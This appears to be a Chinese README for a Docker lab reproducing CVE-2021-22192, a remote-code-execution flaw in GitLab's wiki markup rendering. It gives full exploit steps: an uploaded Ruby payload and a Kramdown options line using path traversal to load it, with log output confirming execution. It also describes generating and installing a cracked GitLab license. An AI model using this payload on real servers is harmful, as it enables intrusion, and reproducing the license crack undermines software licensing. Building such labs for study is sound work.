


# CVE-2021-22192

> CVE-2021-22192 靶场： 未授权用户 RCE 漏洞

------

## 0x10 靶场环境

  


## 0x20 目录结构

```
CVE-2021-22192
├── README.md ............... [此 README 说明]
├── imgs .................... [辅助 README 说明的图片]
├── gitlab .................. [Gitlab 容器的挂载目录]
│   ├── Dockerfile .......... [Gitlab 的 Docker 构建文件]
│   ├── config .............. [Gitlab 配置挂载目录]
│   ├── data ................ [Gitlab 数据挂载目录]
│   ├── logs ................ [Gitlab 日志挂载目录]
│   ├── keys ................ [Gitlab 破解 License 存储目录]
│   └── nginx ............... [Gitlab 内置 nginx 配置目录（备份配置，勿改）]
├── runner .................. [Gitlab 容器的挂载目录]
├── license ................. [破解 License 的容器构建目录]
│   ├── Dockerfile .......... [License 的 Docker 构建文件]
│   └── license.rb .......... [生成破解 License 的 Ruby 脚本]
├── test .................... [Kramdown 调试目录]
├── docker-compose.yml ...... [Docker 的构建配置]
├── keygen.ps1 .............. [Windows: 一键生成破解 License]
├── keygen.sh ............... [Linux:   一键生成破解 License]
├── run.ps1 ................. [Windows: 一键运行 Gitlab 靶场]
├── run.sh .................. [Linux:   一键运行 Gitlab 靶场]
├── register.ps1 ............ [Windows: 一键注册 Runner]
├── register.sh ............. [Linux:   一键注册 Runner]
├── stop.ps1 ................ [Windows: 一键停止 Gitlab 靶场]
└── stop.sh ................. [Linux:   一键停止 Gitlab 靶场]
```


## 0x30 靶场搭建

### 0x31 构建

- 宿主机预装 docker 和 docker-compose
- 下载本仓库： [git clone https://github.com/lyy289065406/CVE-2021-22192](https://github.com/lyy289065406/CVE-2021-22192)
- 生成破解密钥对： [`./keygen.sh`](keygen.sh) 或 [`./keygen.ps1`](keygen.ps1)
- 构建并运行 Gitlab （确保 80 端口未占用）： [`./run.sh`](run.sh) 或 [`./run.ps1`](run.ps1)
- 约 5 分钟后可从浏览器登录 Gitlab：[http://127.0.0.1](http://127.0.0.1) （首次登录需要重设管理员账号 root 的密码）


### 0x32 破解

前面生成破解密钥对的时候，已经把公钥写入 Gitlab 容器后台了，还需要把私钥通过前端上传到 Gitlab 完成破解：

- 密钥对生成到 [`./gitlab/keys/`](gitlab/keys/) 目录，复制其下 `.gitlab-license` 的内容（私钥）
- 使用 root 用户打开 [http://127.0.0.1/admin/license/new](http://127.0.0.1/admin/license/new) 页面
- 选择 `Enter license key` 并粘贴私钥，点击 `Upload license` 按钮即可完成破解





### 0x33 设置 Runner

- 使用 root 用户打开 [http://127.0.0.1/admin/runners](http://127.0.0.1/admin/runners) 页面
- 找到 registration token 并复制
- 注册 Runner： [`./register.sh $TOKEN`](register.sh) 或 [`./register.ps1 $TOKEN`](register.ps1)

> 至此所有 Repository 都可以使用此 Runner 执行 CI 脚本（Pipeline Jobs）




### 0x34 访问 Gitlab Pages

假设你的 Gitlab 用户名为 `${username}`，仓库名称为 `${repository_name}`，当仓库已经使用 jekyll 成功构建 SSG 后，只需要访问以下 URL 即可：

[http://127.0.0.1:8000/${username}/${repository_name}/public/](http://127.0.0.1:8000)


## 0x40 靶场验证

> 具体过程参考可 [hackerone](https://hackerone.com/reports/1125425)。

1. 使用任意用户点击顶部的 `+ -> New snippet`
2. `Title` 随意填即可，点击 `Description (optional)` 的输入框，然后点击 `Attach a file`，上传一个名为 `payload.rb` 文件，其内容如下：

```
puts "hello from ruby"
`echo exp was here > /tmp/exp`
```

此时在 `Description (optional)` 会显示该文件的链接，例如：`[payload.rb](/uploads/-/system/user/1/b5e4fed771f26ef75700ebf763f489ab/payload.rb)`，同时文件已经上传到 docker_gitlab 容器的 `/var/opt/gitlab/gitlab-rails/uploads/-/system/user/1/b5e4fed771f26ef75700ebf763f489ab/payload.rb`。（至于 `Create snippet` 可点可不点，只需要记住这个文件路径的 Hash 即可）

> 注意：不要通过某一个仓库左侧边栏的 `Snippet -> New snippet`，否则回显的文件路径会变成 `[payload.rb](/uploads/b5e4fed771f26ef75700ebf763f489ab/payload.rb)`，实际上上传到 docker_gitlab 容器的路径会变成 `/var/opt/gitlab/gitlab-rails/uploads/@hash/随机字符串/payload.rb`，由于中间有一段随机字符串，很难利用。

5. 点击顶部的 `+ New Project`，命名随意（如 `poc`，或不创建、用已存在的仓库亦可）
6. 点击左侧 `Wiki`，然后点击 `Create your first page`
7. `Title` 和 `Content` 随意填即可， 点击 `Create page`
8. 此时 Gitlab 会生成当前 `poc` 仓库的 wiki 仓库，名为 `poc.wiki`（点击右上角的 `Clone repository`，可以找到 clone 命令： `git clone http://127.0.0.1/root/poc.wiki.git`）。
9. 在本地终端执行命令 `git clone http://127.0.0.1/root/poc.wiki.git && cd poc.wiki` 下载 wiki 仓库到本地
10. 在 wiki 仓库的根目录添加一个名为 `page1.rmd` 的文件，其内容如下（注意文件路径中的 Hash 要替换为前面得到的 Hash）：

```
{::options syntax_highlighter="rouge" syntax_highlighter_opts="{formatter: Redis, driver: ../../../../../../../../../../var/opt/gitlab/gitlab-rails/uploads/-/system/user/1/b5e4fed771f26ef75700ebf763f489ab/payload.rb\}" /}
~~~ ruby
def what?
42
end
~~~
```

11. 执行命令提交该文件到 Gitlab： `git add -A . && git commit -m "page1.rmd" && git push`
12. 回到前面 [Gitlab Wiki](http://127.0.0.1/root/poc/-/wikis) 的页面，刷新，可以在右侧索引栏看到在本地创建的 `page1` 页面，点击它
13. 等待页面回显内容后，登陆 docker_gitlab 容器，可以找到文件 `/tmp/exp` 已经被创建

> 点击 `page1.rmd` 页面后，其实可以在 `gitlab/logs/gitlab-rails/exceptions_json.log` 看到报错信息，但是这不影响命令已经被执行：

```json
{
    "severity": "ERROR",
    "time": "2021-04-26T10:36:07.978Z",
    "correlation_id": "A24bByUP9L5",
    "tags.correlation_id": "A24bByUP9L5",
    "tags.locale": "en",
    "user.id": 1,
    "user.email": "admin@example.com",
    "user.username": "root",
    "extra.project_id": 1,
    "extra.file_name": "page1.rmd",
    "exception.class": "NameError",
    "exception.message": "wrong constant name ../../../../../../../../../../var/opt/gitlab/gitlab-rails/uploads/-/system/user/1/b5e4fed771f26ef75700ebf763f489ab/payload.rb",
    "exception.backtrace": [
        "lib/gitlab/other_markup.rb:11:in `render'",
        "app/helpers/markup_helper.rb:274:in `other_markup_unsafe'",
        "app/helpers/markup_helper.rb:153:in `markup_unsafe'",
        "app/helpers/markup_helper.rb:138:in `render_wiki_content'",
        "app/views/shared/wikis/show.html.haml:25",
        "app/controllers/application_controller.rb:134:in `render'",
        "app/controllers/concerns/wiki_actions.rb:68:in `show'",
        "ee/lib/gitlab/ip_address_state.rb:10:in `with'",
        "ee/app/controllers/ee/application_controller.rb:44:in `set_current_ip_address'",
        "app/controllers/application_controller.rb:491:in `set_current_admin'",
        "lib/gitlab/session.rb:11:in `with_session'",
        "app/controllers/application_controller.rb:482:in `set_session_storage'",
        "app/controllers/application_controller.rb:476:in `set_locale'",
        "lib/gitlab/error_tracking.rb:50:in `with_context'",
        "app/controllers/application_controller.rb:541:in `sentry_context'",
        "app/controllers/application_controller.rb:469:in `block in set_current_context'",
        "lib/gitlab/application_context.rb:52:in `block in use'",
        "lib/gitlab/application_context.rb:52:in `use'",
        "lib/gitlab/application_context.rb:20:in `with_context'",
        "app/controllers/application_controller.rb:462:in `set_current_context'",
        "ee/lib/gitlab/jira/middleware.rb:19:in `call'"
    ]
}
```


